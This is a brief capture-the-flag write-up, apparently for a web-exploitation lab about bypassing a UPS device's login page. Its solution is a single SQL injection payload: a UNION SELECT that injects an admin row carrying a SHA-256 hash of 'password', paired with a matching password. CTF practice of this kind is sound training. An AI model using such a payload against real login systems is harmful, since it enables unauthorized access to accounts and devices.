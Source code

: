 ```yaml
---
title: "Uninterrupted Problem Supply"
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 30
solves: -1
flag: THM{REDACTED}
---
```

> Virelia simply loves buying devices from Mechacore. Their most recent acquisition is a UPS unit. Mechacore promised the login page was 100% secure. Let's see if it can keep us out.

---

Username: ' UNION SELECT 1, 'admin', '5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8' -- 
Password: password
